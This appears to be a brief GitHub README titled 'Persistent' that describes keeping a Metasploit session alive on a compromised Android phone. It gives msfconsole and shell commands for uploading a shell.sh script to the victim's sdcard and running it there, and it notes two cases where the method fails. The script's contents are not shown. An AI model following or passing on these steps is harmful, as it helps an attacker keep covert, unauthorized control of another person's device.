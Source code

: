 # Persistent
>Steps 
Upload this in your victims sdcard by the following command in msfconsole after the session has been opened.
upload /path/to/shell.sh /sdcard
Access device shell by command
shell
Wait for it to connect
Change directory to sdcard by command
cd sdcard
Run the shell script by command
shell.sh
voila

Note that this does not work when
>The app is hidden from launcher by command hide_app_icon
>When the payload is embedded.

